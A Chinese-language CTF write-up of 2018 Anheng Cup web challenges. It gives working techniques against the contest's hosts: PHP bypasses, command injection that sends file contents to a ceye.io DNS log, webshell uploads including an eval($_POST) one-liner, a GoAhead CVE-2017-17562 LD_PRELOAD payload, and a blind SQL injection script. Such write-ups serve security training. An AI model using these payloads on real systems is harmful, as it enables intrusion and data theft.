2018“安恒杯”WEB安全测试秋季资格赛，被老板批评“只会写文档的黑客”后，赶快刷几题找回点自信Orz。


# 奇怪的恐龙特性

进入靶机，可以看到网页源码

```php
<?php 
highlight_file(__FILE__); 
ini_set("display_error", false);  
error_reporting(0);  
$str = isset($_GET['A_A'])?$_GET['A_A']:'A_A'; 
if (strpos($_SERVER['QUERY_STRING'], "A_A") !==false) { 
    echo 'A_A,have fun'; 
} 
elseif ($str<9999999999) { 
    echo 'A_A,too small'; 
} 
elseif ((string)$str>0) { 
    echo 'A_A,too big'; 
} 
else{ 
    echo file_get_contents('flag.php'); 
     
} 

 ?> A_A,too small
```

首先要绕过`isset($_GET['A_A']) && strpos($_SERVER['QUERY_STRING'], "A_A")`，表面上说我们需要生成一个GET请求并且参数为A_A，但是第二个判断有要求GET请求的参数不能为A_A，看起来这是不可能的，但是由于PHP特性，会自动替换`.`为`_`，因此我们可以构造 http://ip/?A.A=xxx来绕过这个判断。

接着我们需要绕过后面两个对$str的判断，即保证`$str<9999999999 || (string)$str>0==false`，这看起来写是不可能，但是在PHP中，我们可以使$str为一个数组，由于类型不同无法判断/强制转化，因此这样两个判断就都不成立了，这样我们就可以开心的getflag了。最后的GET请求为`http://114.55.36.69:8022/?A.A[]=1`

# ping也能把你ping挂

## 0x01

进入靶机，跳转到ping的页面，猜测有命令注入的问题



尝试后发现`;`，空格被过滤，并且长度存在限制，这样我们只能用ls先看下当前目录有啥东西了：



这里我们发现了上传入口：you_find_upload.php。

## 0x02

进入http://114.55.36.69:6664/you_find_upload.php，看到可以查看源码，那就点进去查看吧



前面那一串数字先不管，将后面的base64解码，得到上传的源代码：

```php
<?php
$type = array('gif','jpg','png');
mt_srand((time() % rand(1,100000)%rand(1000,9000)));
echo mt_rand();
if (isset($POST['submit'])) {
    $check = getimagesize($FILES'file');
    @$extension = end(explode('.',$FILES'file'));
    if(in_array($extension,$type)){
        echo 'File is an image - ' . $check['mime'];
        $filename = mt_rand().''.$FILES'file';
        move_uploaded_file($FILES'file', $filename);
        echo "<br>\n";
    } else {
        echo "File is not an image";
    }
}
if(isset($GET['p'])){
    if(@preg_match("/..\//",$GET['p'])){
        echo "你这个孩子，too young too simple";
    }
    else{
       @include $_GET['p'].".php";
    }
}
?>
```

## 0x03

首先我们需要绕过文件类型限制，`in_array($extension,$type)`表示我们得上传后缀是gif，jpg或png的文件，这里复习一下上传绕过的普通套路：

1. Apache

   1.php.jpg #从apache从右往左，直到可解析的文件后缀

2. Nginx

   1.php%001.jpg #00处截断

3. IIS

   a.asp;jpg	

   a.php. 和a.php[空格] #会自动去掉空格

注意到这里用的是Apache容器，那我们就上传个backdoor.php.jpg文件就好了



看到这里我们已经上传成功了

## 0x04

接下来我们需要确定上传后的文件名，再次查看源码，点击上传后，程序首先使用`mt_srand((time() % rand(1,100000)%rand(1000,9000)));`设置了随机数种子，并且打印第一个随机数`echo mt_rand();`；而上传文件名就是第二个随机数+原本文件名`$filename = mt_rand().''.$FILES'file';`，这样的伪随机数是存在问题的，我们可以根据第一个随机数暴力破解出随机数种子（注意到这里的种子∈[1000,9000]），然后再计算出第二个随机数。

以第3步的上传结果为例，使用php_mt_seed.exe计算出随机数种子为5240.

```bash
λ php_mt_seed.exe 823735129
Found 0, trying 0 - 33554431, speed 0 seeds per second
seed = 5240
Found 1, trying 67108864 - 100663295, speed 71014670 seeds per second
```

接着推测出第二个随机数：

```bash
λ cat test.php
<?php
mt_srand(5240);
echo mt_rand();
echo "\n";
echo mt_rand();
?>
λ php test.php
823735129
288373614
```

那么我们的文件名就是288373614_backdoor.php.jpg

后面就可以连菜刀http://114.55.36.69:6664/upload/288373614_backdoor.php.jpg，flag在根目录




# ping

这题算是看着答案做出来的，不过思路很好，用到了DNS带外数据的知识，这里也记录一下：

## 0x01

首先还是扫描网站，可以看到网站泄露了一个robots.txt文件



访问该文件，看到目录下存在index.txt，where_is_flag.php文件



先看index.txt:

```php
<?php include("where_is_flag.php");echo "ping";$ip =(string)$_GET['ping'];$ip =str_replace(">","0.0",$ip);system("ping  ".$ip);
```

可以看到存在命令执行，ping参数会直接拼接在ping命令后

where_is_flag.php我们需要用命令执行才能看了。


## 0x02 

尝试使用`http://114.55.36.69:8015/?ping=127.0.0.1`，发现网站未响应，这是因为后台正在循环ping，说明了命令执行成功。

接着尝试使用`http://114.55.36.69:8015/?ping=-c 1 127.0.0.1`，可以发现网站网站后台并没有回显ping的结果，这说明虽然网站执行了命令，但是并不返回命令执行结果。

那么如何拿到命令执行结果呢？第一个想到的是使用http请求，比如说`wget www.mysite.com/$(cat flag.php)`，但是尝试后发现无效，这可能是服务器并没有wget命令。

正解是使用dns解析获取带外数据，这里推荐一个平台：[http://ceye.io](http://ceye.io)，登录之后可以获得一个专属的地址（假设为qwerty.ceye.io），那么如果我们<code>ping  &#96;whoami&#96;.qwerty.ceye.io</code>，由于ping的第一步是dns解析，所以在[http://ceye.io/records/dns](http://ceye.io/records/dns)就可以看whoami命令执行的结果：



根据上述原理，我们可以获取where_is_flag.php，但是如果文件内容中有空格，我们的ping命令就不能执行了，所以用sed命令将空格换成sspacee。这样我们ping参数为：
<code>http://114.55.36.69:8015/?ping= &#96;cat where_is_flag.php|sed 's/\s/sspacee/g'&#96;.0ri9zr.ceye.io</code>

同时在ceye中可以看到文件内容了



接着访问dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php，如法炮制即可：

<code>http://114.55.36.69:8015/?ping= &#96;cat dgfsdunsadkjgdgdfhdfhfgdhsadf/flag.php|sed 's/\s/sspacee/g'&#96;.0ri9zr.ceye.io</code>

可以看到flag：



**拓展：** 不止是命令执行，dns的带外数据还能传很多东西比如说SQL注入、XXE，详细可以看[http://ceye.io/payloads](http://ceye.io/payloads)，Github上也有了利用该方法进行SQL注入的工具（[https://github.com/ADOOO/DnslogSqlinj](https://github.com/ADOOO/DnslogSqlinj))


# ProxyError

修改Host:192.168.5.132


# 新瓶装旧酒

## 0x01 代码审计+文件上传

这里可以看到需要上传一个zip文件：



这里看到zip文件中需要包含一个图片后缀：



根据apache的特性，使用大马1.pHp.png(注意到文件名不能有`.ph`)，并且压缩成zip上传，发现`flag.php`。




# GOGOGO

## 0x01 GoAhead CVE-2017-17562

实际上腾讯的[“开源Web服务器GoAhead漏洞CVE-2017-17562分析“](https://slab.qq.com/news/tech/1701.html) 一文已经对此漏洞进行了详细解释，这里只概括的说一下：

1. 因为cgiHandler的过滤不当，导致LD_PRELOAD变量可控，而程序会读取LD_PRELOAD变量记录的文件路径并且执行文件代码；
2. launchCgi函数调用系统函数dup2()将stdin文件描述符指向了POST请求数据对应的临时文件。

从发送payload的命令可以看到，我们的POST中控制了两个输入，一个是LOAD_PRELOAD参数（将它设置为了/proc/self/fd/0），一个是POST的data（将它设置为了我们编译生成的动态链接库）。/proc/self/fd/0 是Linux的伪文件系统文件，实际上指的是stdin，以下命令的执行结果可以说明这一点：


这样结合第一条，即程序会从我们标准输入中取代码执行，又因为第二条，我们的标准输入被定向到了POST的临时文件中，具体来说，即定向到了我们的payload.so文件上，这样整个原理就走通了。

## 0x02 复现CVE

准备payload

```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

static void before_main(void) __attribute__((constructor));
static void before_main(void) {
    /* printf("hello, payload executed.\n"); */
    system("cat /var/www/goahead/cgi-bin/hello.cgi");

}
```

编译
```bash
$ gcc -shared -fPIC ./payload.c -o payload.so
```

触发payload

```bash
$ curl -X POST --data-binary @payload.so http://114.55.36.69:8018/cgi-bin/hello.cgi?LD_PRELOAD=/proc/self/fd/0 -i
HTTP/1.1 200 OK
Server: GoAhead-http
Date: Fri Oct 12 13:38:48 2018
Transfer-Encoding: chunked
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
Pragma: no-cache
Cache-Control: no-cache
#!/usr/bin/perl
print "Content-Type: text/html\n\n";
print "Hello GOGOGO";
#flag{ef9f1f880e1f001bedd32bfc52674128}
#!/usr/bin/perl

curl: (56) Illegal or missing hexadecimal sequence in chunked-encoding
```


# 进击的盲注

## 0x01 敏感信息泄露

扫描存在robots.txt



## 0x02 SQL盲注

看源码，username处存在注入，过滤符号"(",")"



使用regexp binary注入：

```python
burp0_url = "http://114.55.36.69:6663/index.php"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Origin": "http://114.55.36.69:6663",
    "Upgrade-Insecure-Requests": "1",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3377.1 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
    "Referer": "http://114.55.36.69:6663/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close"}

result = ''
payload = "admin' and password regexp binary '^{res}'#"
for i in xrange(0,50):
    for j in xrange(32,126):
        if chr(j) in ['*','\\','/','(',')','+','.','?','[',']','^']:
            continue
        hh = payload.format(res=result+chr(j)
        print hh

        burp0_data = {"username": hh, "password": "admin"}
        zz = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        #print zz.content
        if 'password error!' in zz.content:
            result += chr(j)
            print result
            break
```

得到：dVAxMEBkX25Fdy5waHA=$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$

base64解码后得到uP10@d_nEw.php

## 0x03 文件上传绕过

访问看到一个上传界面



传大马，发现根目录下存在flag：



# 艰难的Bypass之路

用户名爆破，发现lili可用：




查看哪些关键词被过滤：

```python
import requests

def detect():
    waf_words=['ord', 'or', 'union', 'select', 'and', 'from', 'order by', 'substr', "'", '*', '&&', 'information_schema', ' ', '%', 'group_concat', '(', '"', 'where', 'if', ' ', '||', '#', '--+', '_', '`', '/', '<>', 'in', '=', 'mid', 'like', 'database()', '>', 'user()', 'tables', 'limit']
    burp0_url = "http://114.55.36.69:6661/index.php"
    burp0_cookies = {"PHPSESSID": "jrspq1dsdrt8gn6tqq35mdatn0"}
    burp0_headers = {"Cache-Control": "max-age=0", "Origin": "http://114.55.36.69:6661", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3377.1 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Referer": "http://114.55.36.69:6661/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
    for each in waf_words:
        burp0_data={"username": "admin{}".format(each), "passwd": "admin"}
        res=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        if "illegal characters!" in res.text:
            print each

if __name__ == '__main__':
    detect()


```





# 非正常解法

扫描到上传目录



### 0x01 发现dalao留的后门

http://114.55.36.69:6663/uploads/

### 0x02 直接用大佬的后门

以`a.php;.jpg`为例，查看后门密码

```html
<script language="pHp">@eval($_POST['sb'])</script>
```

菜刀连接，查看flag

/flag

或者大马`http://114.55.36.69:6663/uploads/shell.php.jpg?` 密码admin

<script language="pHp">@eval($_POST['sb'])</script>